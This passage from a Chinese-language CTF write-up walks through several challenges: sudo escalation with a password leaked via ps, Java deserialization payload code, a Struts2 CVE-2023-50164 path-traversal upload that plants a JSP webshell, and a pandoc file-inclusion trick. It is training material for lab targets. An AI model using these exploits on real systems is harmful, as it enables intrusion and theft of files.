su - ctf -c "nohup script -q -f -c 'bash -li -c \"echo ${NEWPASS} | sudo -S -v >/dev/null 2>&1; sleep infinity\"' /dev/null >/dev/null 2>&1 &" 
exec apache2-foreground
```

这个脚本生成了一个随机密码 `NEWPASS` 并赋予了 `ctf` 用户，它切换到 `ctf` 用户后，在后台运行了一个 `bash` 命令，同时`NEWPASS`被写在命令行里

查看进程：

```
ps -ef
```



发现密码是OQK1

直接sudo不可行，回显：sudo: sorry, you must have a tty to run sudo

利用script伪造终端用来执行sudo，尽管伪造了但是还是不能直接输入密码，所以利用echo+管道符把密码输入进去

```
script /dev/null -c bash
echo "OQK1" | sudo -S cat /flag

[sudo] password for ctf: SHCTF{$UdO_7#k3n_InjEC710n_PWnEd_2O2S}
```

### **你也懂java？**

打开网站

```
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
 
public class Exp {
    public static void main(String[] args) {
        Note note = new Note("123","456","/flag");
        // 序列化对象到文件
        try (ObjectOutputStream oos = new ObjectOutputStream(
                new FileOutputStream("person.ser"))) {
            oos.writeObject(note);
            System.out.println("对象已序列化到文件: person.ser");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

将附件jar包导入IEDA，发现有一个Note.java

```
import java.io.Serializable;

public class Note implements Serializable {
    private static final long serialVersionUID = 1L;

    private String title;
    private String message;
    private String filePath;

    public Note(String title, String message, String filePath) {
        this.title = title;
        this.message = message;
        this.filePath = filePath;
    }

    public String getTitle() {
        return title;
    }

    public String getMessage() {
        return message;
    }

    public String getFilePath() {
        return filePath;
    }
}

```

很明显的反序列，先序列化到person.ser

```
public class test {
    public static void main(String[] args) {
        Note note = new Note("123","456","/flag");
        // 序列化对象到文件
        try (ObjectOutputStream oos = new ObjectOutputStream(
                new FileOutputStream("person.ser"))) {
            oos.writeObject(note);
            System.out.println("对象已序列化到文件: person.ser");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

再用python发包

```
import requests

url = "http://challenge.shc.tf:31830/upload"
headers = {
    "Content-Type": "application/octet-stream",
    
}

# 读取序列化文件
with open("C://xian//person.ser", "rb") as f:
    data = f.read()

# 发送请求
response = requests.post(url, headers=headers, data=data)
print(response.text
```

### **BabyJavaUpload**



提示是某个CVE



上传文件的路由是`upload.action`，感觉是Struts2，结合hint的cve，这里打的就是S2系列漏洞**cve 2023 50164**

在 Struts2 的文件上传处理过程中，框架通常只保留上传文件的基本名称（basename）以防止路径穿越。但是，由于处理过程中的一个逻辑缺陷，攻击者可以通过以下方式绕过这个保护：使用首字母大写的表单字段名（例如，使用 "Upload" 而不是 "upload"），提供一个包含目标路径穿越文件名的单独表单字段，这使得未经处理的文件名可以覆盖基本名称保护，最终导致成功的路径穿越



上传1.txt,再BP里get传myfileFileName=../../../1.txt，改filename为../../1.txt（干扰项）name的首字母一定要改成大写

正常情况（小写 `upload`）：即使攻击者在 `uploadFileName` 传 `../../flag`，框架也会提取 basename 变成 `flag`；

漏洞情况（大写 `Upload`）：攻击者可构造 `UploadFileName` 字段（首字母同步大写），传入未经处理的 `../../flag`，框架会直接用这个值作为最终文件名，覆盖原本的 basename 保护。





访问1.txt发现上传成功



把文件名改成1.jsp

内容改成

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
                                                                                                                                                                                                                                                                                      
%>
</pre>
```




然后就可以命令执行了




## VNCTF

### Markdown2World



pandoc在markdown转word的时候如果不加沙箱会把![a]的内容当做媒体资源加载

所以上传一个md文件

```
![/flag]
```

解压zip 在媒体文件夹找到一个.so文件里面就是flag